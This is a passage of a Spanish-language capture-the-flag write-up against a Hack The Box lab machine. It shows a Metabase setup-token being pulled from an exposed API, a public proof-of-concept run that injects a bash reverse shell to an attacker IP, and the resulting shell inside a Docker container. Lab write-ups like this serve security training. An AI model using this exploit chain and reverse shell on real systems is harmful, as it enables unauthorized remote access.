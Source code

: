 En el PoC se nos requiere el `setup-token` del `Metabase`, el cual podemos localizar a través del siguiente comando.

```bash
❯ curl -s -X GET 'http://data.analytical.htb/api/session/properties' | jq | grep -i 'setup-token' | tr -d '":,'
  setup-token 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```

Por otro lado, nos pondremos en escucha por un puerto para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el exploit para enviarnos una Reverse Shell hacia nuestro equipo.

```bash
❯ python3 main.py -u http://data.analytical.htb -t "249fa03d-fd94-4d5b-b94f-b4ebf3df681f" -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```

Verificaremos que hemos ganado acceso al sistema, pero al parecer se trata de un Docker y no nos encontramos aún en el equipo principal.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.233] 48946
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell

47200cf3578f:/$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

## Initial Access

### Docker Container Information Leakage
